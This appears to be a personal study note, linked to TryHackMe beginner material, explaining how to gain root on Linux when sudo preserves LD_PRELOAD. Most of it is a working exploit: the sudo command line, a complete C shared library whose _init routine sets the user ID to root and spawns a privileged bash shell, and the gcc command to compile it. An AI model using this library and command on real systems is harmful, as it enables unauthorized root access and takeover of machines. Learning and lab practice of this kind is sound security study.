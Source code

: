# Exploiting LD_PRELOAD

**author**:: Nathan Acks  
**date**:: 2021-10-31

If LD_PRELOAD is preserved by sudo, then it's possible to use a malicious dynamic library to gain root access - just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`. Preserved environment variables are listed by `sudo -l`.

A simple malicious library (perhaps *the* simplest) that can exploit the LD_PRELOAD trick is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -shared -nostartfiles \
    -o /path/to/malicious.so /path/to/malicious.c
```

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Enumerate "sudo" Access](enumerate-sudo-access.md)
